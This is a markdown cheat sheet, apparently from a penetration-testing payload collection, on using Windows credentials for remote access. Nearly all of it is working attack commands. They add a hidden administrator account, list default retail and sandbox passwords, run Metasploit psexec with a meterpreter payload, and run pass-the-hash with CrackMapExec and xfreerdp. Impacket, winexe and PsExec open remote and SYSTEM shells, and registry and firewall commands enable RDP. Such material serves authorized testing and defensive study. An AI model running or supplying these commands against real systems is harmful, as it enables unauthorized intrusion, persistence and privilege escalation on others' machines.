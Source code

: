 # Windows - Using credentials

## TIP 1 - Create your credential :D

```powershell
net user hacker hacker /add
net localgroup administrators hacker /add
```

Some info about your user

```powershell
net user /dom
net user /domain
```

## TIP 2 - Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

## TIP - Sandbox Credential - WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain CSCOU  
set SMBUser jarrieta
set SMBPass nastyCutt3r
services -p 445 -R  
run
creds
```

## Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser jarrieta
set SMBPass nastyCutt3r
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d CSCOU -u jarrieta -p nastyCutt3r
python crackmapexec.py 10.9.122.5 -d CSCOU -u jarrieta -p nastyCutt3r -x whoami
```

## Crackmapexec (Pass The Hash)

```powershell
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)

```python
winexe -U CSCOU/jarrieta%nastyCutt3r //10.9.122.5 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python smbexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python wmiexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
```

## RDP Remote Desktop Protocol (Impacket)

```powershell
python rdpcheck.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
rdesktop -d CSCOU -u jarrieta -p nastyCutt3r 10.9.122.5 -g 70 -r disk:share=/home/user/myshare
# -g : the screen will take up 70% of your actual screen size
# -r disk:share : sharing a local folder during a remote desktop session 
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

For Server 2012 R2, Win8.1+

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:192.168.1.12
```

with Metasploit

```powershell
run getgui -u admin -p 1234
```

## Netuse (Windows)

```powershell
net use \\ordws01.cscou.lab /user:CSCOU\jarrieta nastyCutt3r
C$
```

## Runas (Windows - Kerberos auth)

```powershell
runas /netonly /user:CSCOU\jarrieta "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )

```powershell
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe -s  # get System shell
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
